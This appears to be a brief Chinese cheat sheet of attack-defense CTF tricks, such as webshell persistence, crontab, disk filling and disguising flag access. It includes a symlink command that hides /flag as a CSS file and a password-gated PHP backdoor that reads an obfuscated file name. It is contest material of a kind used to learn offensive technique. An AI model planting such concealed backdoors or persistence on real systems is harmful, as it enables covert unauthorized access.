 # 线下赛攻防技巧



## 权限维持读flag方法列表

```
https://zhuanlan.zhihu.com/p/88427845#蠕虫马
内存马+不死马
crontab
软链接flag

```





##  奇淫技巧

### 写满硬盘防止flag更新、



### 隐蔽读flag

```
ln -s /flag /var/www/html/css/bootstraps.css
```



```
if(md5($_GET[1])==='xxxxxxxxx'){
	highlight_file(base64_encode(urldecode('%FF%FF%FF%7EV%A0')));
}
```

### 防止上车

动态密码和文件名



### 利用hackhttp快速写payload

python hackhttp







## 注意

1. 如果是一天以上的比赛,要把phpinfo,数据库配置啥的给down下来方便晚上回去挖洞

